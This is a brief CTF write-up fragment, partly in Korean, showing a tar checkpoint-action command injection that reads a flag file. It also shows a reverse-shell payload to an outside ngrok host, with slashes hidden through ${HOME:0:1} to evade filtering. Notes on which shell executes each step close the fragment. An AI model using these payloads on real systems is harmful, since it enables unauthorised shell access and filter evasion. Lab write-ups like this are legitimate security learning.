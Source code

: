 ```bash
ctf@54f0c545b7c4:~/uploads/4095fc3d-808a-42d8-a9e4-c49d92c0aec6
$ tar -cf * --checkpoint=1 --checkpoint-action=exec="cat ${HOME:0:1}flag*"
test{test}
```

```sh
--checkpoint-action=exec=bash -c 'sh -i >&
${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}
0.tcp.jp.ngrok.io${HOME:0:1}16142 0>&1'
```

---

![alt text](image-13.png)

---

![alt text](image-14.png)

###### tar가 실행되는 쉘 : `/bin/bash`

###### `cat \${HOME:0:1}flag`가 실행되는 쉘 : `/bin/sh`

---